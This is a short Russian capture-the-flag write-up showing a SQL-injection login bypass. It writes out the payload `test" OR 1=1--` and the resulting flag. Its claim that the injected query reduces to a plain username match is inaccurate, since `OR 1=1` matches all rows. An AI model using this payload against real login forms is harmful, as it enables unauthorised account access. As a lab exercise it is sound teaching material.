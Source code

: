 # Базовая авторизациа: Write-up #
Попадая на сайт, видим простенькую формочку для входа. Вводим тестовые креды и получаем `User ID: 1`

Попробуем в такую формочку засунуть SQL-инъекцию. Обычно простейший запрос в форме входа выглядит так:
```SQL
SELECT * FROM users WHERE username="admin" AND password="password";
```
И если backend сайта оформлен беспечно, т.е. нет фильтров на данные, получаемые от пользователя (или если это бейби-таск на веб), то можно самому редактировать запрос.
Если засунуть кавычки в `username`, получим ошибку. А вот в `password` так можно сделать, так что при пароле `test" OR 1=1--` наш запрос будет таким:
```SQL
SELECT * FROM users WHERE username="admin" AND password="test" OR 1=1--";
```
И вышеприведённый запрос будет равносилен этому:
```SQL
SELECT * FROM users WHERE username="admin";
```
`--` превращает весь оставшийся кусок запроса справа в комментарий, так мы избавимся от лишней кавычки.

 Пробуем `admin` и `test" OR 1=1--`:
 
    FLAG: CODEBY{pwn3d_4g41n_d34r_4dm1n}
